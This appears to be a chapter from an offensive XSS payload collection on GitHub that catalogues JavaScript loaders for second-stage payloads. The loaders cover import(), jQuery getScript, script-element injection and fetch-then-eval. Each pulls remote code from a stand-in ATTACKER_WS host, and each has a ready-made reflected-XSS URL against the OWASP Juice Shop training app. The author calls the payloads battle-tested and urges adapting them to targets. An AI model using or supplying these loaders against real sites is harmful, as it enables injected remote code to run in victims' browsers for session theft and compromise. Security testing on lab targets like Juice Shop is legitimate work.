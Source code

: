 # Second Stage JavaScript Payload Loaders

<p align="justify">This chapter documents JavaScript payloads used to load and execute second stage payloads.</p>

<p align="justify">Although a lot of amazing online resources exist on the topic of XSS, none that i am aware of cover second stage payload loaders in more detail.</p>

* **NOTE**: this is not an exhaustive list - further payload options and options for modifying the payload exist
    * all payloads listed here are proven to work and have been battle-tested on Bug Bounty platforms
    * depending on the scenario, one may work over another
        * overall, in most scenarios, at least one of them works
            * if not, explore available options for "saying the same in a different way" (i.e. adapt to target environment)
            * if required, deal with Content Security Policy (CSP; not covered here)
    * list may be updated with additional payloads or different variants

## `import()` - round brackets; quote; `Access-Control-Allow-Origin` required

```
import('//ATTACKER_WS/PATH/JS_PAYLOAD');
```

* *(live example - OWASP juice shop - reflected XSS)*

    https://preview.owasp-juice.shop/#/search?q=%3Cimg%20src%20onerror%3D%22import(%27%2F%2Fcdn.jsdelivr.net%2Fgh%2Flighthouseitsecurity%2FweaponizedXSS%2Fbasic%2FsimplePoC%2FsimpleStd.js%27)%3B%22%3E

## [jQuery; new] `$.getScript()` - round brackets; quote; dollar

```
$.getScript('//ATTACKER_WS/PATH/JS_PAYLOAD');
```

* *(live example - OWASP juice shop - reflected XSS)*

    https://preview.owasp-juice.shop/#/search?q=%3Cimg%20src%20onerror%3D%22%24.getScript(%27%2F%2Fcdn.jsdelivr.net%2Fgh%2Flighthouseitsecurity%2FweaponizedXSS%2Fbasic%2FsimplePoC%2FsimpleStd.js%27)%3B%22%3E

## [jQuery; old] `jQuery.getScript()` - round brackets; quote

```
jQuery.getScript('//ATTACKER_WS/PATH/JS_PAYLOAD');
```

* *(live example - OWASP juice shop - reflected XSS)*

    https://preview.owasp-juice.shop/#/search?q=%3Cimg%20src%20onerror%3D%22jQuery.getScript(%27%2F%2Fcdn.jsdelivr.net%2Fgh%2Flighthouseitsecurity%2FweaponizedXSS%2Fbasic%2FsimplePoC%2FsimpleStd.js%27)%3B%22%3E

## `appendChild()` #1 - round brackets; quote; equal

```
with(document)body.appendChild(createElement('script')).src='//ATTACKER_WS/PATH/JS_PAYLOAD';
```

* *(live example - OWASP juice shop - reflected XSS)*

    https://preview.owasp-juice.shop/#/search?q=%3Cimg%20src%20onerror%3D%22with(document)body.appendChild(createElement(%27script%27)).src%3D%27%2F%2Fcdn.jsdelivr.net%2Fgh%2Flighthouseitsecurity%2FweaponizedXSS%2Fbasic%2FsimplePoC%2FsimpleStd.js%27%3B%22%3E

## `appendChild()` #2 - round brackets; quote; equal; space

```
var js=document.createElement('script');js.type='text/javascript';js.src='//ATTACKER_WS/PATH/JS_PAYLOAD';document.body.appendChild(js);
```

* *(live example - OWASP juice shop - reflected XSS)*

    https://preview.owasp-juice.shop/#/search?q=%3Cimg%20src%20onerror%3D%22var%20js%3Ddocument.createElement(%27script%27)%3Bjs.type%3D%27text/javascript%27%3Bjs.src%3D%27%2F%2Fcdn.jsdelivr.net%2Fgh%2Flighthouseitsecurity%2FweaponizedXSS%2Fbasic%2FsimplePoC%2FsimpleStd.js%27%3Bdocument.body.appendChild(js)%3B%22%3E

## `fetch()` #1 - round brackets; right angle bracket; quote; equal; `eval()`; `Access-Control-Allow-Origin` required; works with `Content-Type: text/plain`

```
fetch('//ATTACKER_WS/PATH/JS_PAYLOAD').then(r=>r.text().then(t=>eval(t)));
```

* *(live example - OWASP juice shop - reflected XSS)*

    https://preview.owasp-juice.shop/#/search?q=%3Cimg%20src%20onerror%3D%22fetch(%27%2F%2Fraw.githubusercontent.com%2Flighthouseitsecurity%2FweaponizedXSS%2Frefs%2Fheads%2Fmain%2Fbasic%2FsimplePoC%2FsimpleStd.js%27).then(r%3D%3Er.text().then(t%3D%3Eeval(t)))%3B%22%3E

## `fetch()` #2 - round brackets; curly brackets; quote; space; `eval()`; `Access-Control-Allow-Origin` required; works with `Content-Type: text/plain`

```
fetch('//ATTACKER_WS/PATH/JS_PAYLOAD').then(function(r){return r.text().then(function(t){return eval(t);})});
```

* *(live example - OWASP juice shop - reflected XSS)*

    https://preview.owasp-juice.shop/#/search?q=%3Cimg%20src%20onerror%3D%22fetch(%27%2F%2Fraw.githubusercontent.com%2Flighthouseitsecurity%2FweaponizedXSS%2Frefs%2Fheads%2Fmain%2Fbasic%2FsimplePoC%2FsimpleStd.js%27).then(function(r)%7Breturn%20r.text().then(function(t)%7Breturn%20eval(t);%7D)%7D)%3B%22%3E

## `fetch()` #3 - round brackets; curly brackets; quote; equal; space; `eval()`; `Access-Control-Allow-Origin` required; works with `Content-Type: text/plain`

```
async function g(f){o=await fetch(f);t=await o.text();eval(t);};g('//ATTACKER_WS/PATH/JS_PAYLOAD');
```

* *(live example - OWASP juice shop - reflected XSS)*

    https://preview.owasp-juice.shop/#/search?q=%3Cimg%20src%20onerror%3D%22async%20function%20g(f)%7Bo%3Dawait%20fetch(f);t%3Dawait%20o.text();eval(t);%7D;g(%27%2F%2Fraw.githubusercontent.com%2Flighthouseitsecurity%2FweaponizedXSS%2Frefs%2Fheads%2Fmain%2Fbasic%2FsimplePoC%2FsimpleStd.js%27)%3B%22%3E
